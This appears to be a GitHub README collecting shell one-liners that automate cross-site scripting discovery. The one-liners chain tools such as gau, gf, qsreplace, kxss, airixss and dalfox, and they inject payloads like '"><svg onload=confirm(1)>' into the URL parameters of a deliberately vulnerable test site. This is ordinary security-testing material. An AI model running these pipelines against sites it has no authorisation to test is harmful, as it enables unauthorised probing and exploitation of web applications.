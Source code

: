 # One-liner-XSS-Scanner-
This is a collection of commands that's help you to find XSS via automation.

## Via Bash Script
### Tools:
> [Kxss](https://github.com/Emoe/kxss) : To find reflected values.

> [uro](https://github.com/s0md3v/uro): Declutters url lists for crawling.

> [gf](https://github.com/tomnomnom/gf): A wrapper around grep, to help you grep for things.

> [qsreplace](https://github.com/tomnomnom/qsreplace): To replace all query string values with a user-supplied value.

> [Freq](https://github.com/takshal/freq): To find alert values.

> [airixss](https://github.com/ferreiraklet/airixss): To find XSS during recon.

> [dalfox](https://github.com/hahwul/dalfox) : It’s a powerfull XSS scanner.

## First Case

```
echo http://testphp.vulnweb.com | gau | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```


![1_HTuqyTBftAdkwqfRL3jQ_w](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/b7975f46-d5ce-4adb-9f35-87d6b7af9294)


```
cat param.txt | kxss | awk '{print $9}'| dalfox pipe
```


![1_FO3algvVNFOrDIYh7wKbVQ](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/fbf15891-47df-43fe-a47a-aefc64c6493b)


```


cat param.txt | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
echo http://testphp.vulnweb.com | gau | gf xss | uro  |qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"


```

![1__JCZZJX2T1XiHxH0FZPTWw](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/cfb1baa0-f59c-4447-9753-093fd6b62c77)



## *You can Read the full methodology here at [Medium](https://0xelkot.medium.com/advanced-xss-discovery-streamlining-your-attack-strategy-with-cutting-edge-automation-tools-88cfd0f68c8e)*
